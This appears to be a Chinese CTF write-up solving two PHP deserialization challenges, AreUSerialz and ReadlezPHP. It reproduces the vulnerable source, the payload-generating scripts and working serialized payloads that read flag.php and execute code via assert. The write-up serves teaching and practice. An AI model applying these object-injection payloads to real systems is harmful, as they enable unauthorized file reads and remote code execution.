



# 1.[网鼎杯 2020 青龙组]AreUSerialz
参考：https://cloud.tencent.com/developer/article/2364635
- 源代码：
```php
 <?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```
绕过脚本：
```php
<?php
  class FileHandler {
  protected $op = 2;
  protected $filename ='flag.php';         
 //题目中包含flag的文件
protected $content;

}
$bai = urlencode(serialize(new FileHandler)); 
//URL编码实例化后的类FileHandler序列化结果
$mao =str_replace('%00',"\\00",$bai);    
//str_replace函数查找变量bai里面的数值%00并将其替换为\\00
$mao =str_replace('s','S',$mao);         
//str_replace函数查找变量mao里面的数值s并将其替换为S
echo $mao                                               
//打印结果
?>
// O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BN%3B%7D
```
构造payload：
?str=O%3A11%3A%22FileHandler%22%3A3%3A%7BS%3A5%3A%22\00%2A\00op%22%3Bi%3A2%3BS%3A11%3A%22\00%2A\00filename%22%3BS%3A8%3A%22flag.php%22%3BS%3A10%3A%22\00%2A\00content%22%3BN%3B%7D
查看页面源代码发现flag

# 2.[NPUCTF2020]ReadlezPHP
进入环境发现无法右键查看源代码，ctrl+U查看源代码
进入http://1bc14002-dda9-4fad-bbf8-7b567ff4bf15.node5.buuoj.cn:81/time.php?source
```php
 <?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

2024-04-30 07:46:22
```
构造a=phpinfo()，b=assert，$b($a)就是assert(phpinfo())
```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "phpinfo()";
        $this->b = "assert";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
    }
}
$cc=new HelloPhp("phpinfo()","assert");
echo(serialize($cc));
// O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
```
传递的参数是data，payload：
?data=O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}
ctrl+f搜索flag